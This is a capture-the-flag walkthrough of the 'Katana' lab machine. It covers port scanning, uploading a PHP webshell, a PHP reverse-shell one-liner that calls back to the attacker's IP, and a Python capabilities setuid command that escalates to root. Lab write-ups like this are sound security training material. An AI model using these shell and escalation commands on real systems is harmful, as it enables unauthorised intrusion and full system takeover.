

# PG Play - Katana

#### Ip: 192.168.171.83
#### Name: Katana
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -p-  --min-rate 10000 192.168.171.83
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.070s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
7080/tcp open  empowerid
8088/tcp open  radan-http
8715/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ sudo nmap -sC -sV 192.168.171.83 -p 21,22,80,7080,8088,8715
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-16 09:48 CDT
Nmap scan report for 192.168.171.83
Host is up (0.065s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/empowerid LiteSpeed
| ssl-cert: Subject: commonName=katana/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-11T13:57:36
|_Not valid after:  2022-05-11T13:57:36
|_http-title: Did not follow redirect to https://192.168.171.83:7080/
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
|_http-server-header: LiteSpeed
8088/tcp open  http          LiteSpeed httpd
|_http-title: Katana X
|_http-server-header: LiteSpeed
8715/tcp open  http          nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.57 seconds
```

Heading over to the site we find just a basic image, with no functionality:


Lets use Feroxbuster to see if we can discover any interesting directories against the HTTP ports:


Cool, the `/upload.html` directory seems interesting


Lets upload a copy of the wwwolf-php-webshell and see what we can do with it.

Once uploaded we see this message:


Ok interesting, looks like the file was uploaded, but I'm seeing a message that it's been moved to another server.

After some trial and error I found our script at http://192.168.171.83:8715/katana_webshell.php where I could confirm that we had execution on the target:


Lets grab a reverse shell one-liner from https://www.revshells.com/ and get a proper shell to work in:

### Exploitation

Because I know that the box plays nice with PHP, I'll use:

```text
php -r '$sock=fsockopen("192.168.45.197",443);exec("sh <&3 >&3 2>&3");'
```

Which gets me a shell back as www-data:

```text
┌──(ryan㉿kali)-[~/PG/Katana]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.171.83] 56092
whoami
www-data
hostname
katana
python -c 'import pty;pty.spawn("/bin/bash")'


www-data@katana:/opt/manager/html$
```

From here I can from the local.txt flag in `/var/www`:


### Privilege Escalation

Lets upload a copy of LinPEAS to the target to help enumerate a privilege escalation vector:


Cool, LinPEAS finds that Python has capabilities set. This should make for an easy privesc:



Lets run:

```text
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Which drops us into a root shell:

```text
www-data@katana:/tmp$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
< -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```

We can now grab the proof.txt flag:


Thanks for following along!

-Ryan

----------------------------

